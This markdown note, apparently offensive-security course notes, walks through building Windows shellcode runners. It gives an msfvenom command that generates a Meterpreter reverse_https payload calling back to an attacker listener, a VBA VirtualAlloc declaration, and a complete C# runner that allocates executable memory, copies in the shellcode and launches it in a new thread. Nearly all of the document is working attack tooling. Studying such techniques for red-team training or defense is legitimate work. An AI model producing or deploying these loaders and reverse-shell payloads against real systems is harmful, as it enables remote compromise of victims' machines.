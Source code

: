 ## All About Shellcode

# Shellcode Basic
shellcode runner ⇒ a piece of code that executes shellcode in memory

We will use VirtualAlloc to allocate unmanaged memory that is writable, readable, and executable. We'll then copy the shellcode into the newly allocated memory with RtlMoveMemory, and create a new execution thread in the process through CreateThread to execute the shellcode.

**Function prototype for VirtualAlloc**
```
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```
This API accepts four arguments. The first, lpAddress, is the memory allocation address. If we leave this set to "0", the API will choose the location. The dwSize argument indicates the size of the allocation. Finally, flAllocationType and flProtect indicate the allocation type and the memory protections, which we will come back to.

**Function declaration for VirtualAlloc**
```
Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
```

# Shellcode in VBA
Generate shellcode in vbapplication format
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f vbapplication
```
![alt text](image-11.png)

# Shellcode Runner in C#
The full code of C# shellcode runner
```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[630] {
  0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
  ...
  0x58,0xc3,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5 };

            int size = buf.Length;

            IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

            Marshal.Copy(buf, 0, addr, size);

            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```
Before compiling this project, we must set the CPU architecture to x64 since we are using 64-bit shellcode.
![alt text](image-9.png)

In the Configuration Manager, we choose <New...> from the Platform drop down menu and accept the new platform as x64
![alt text](image-10.png)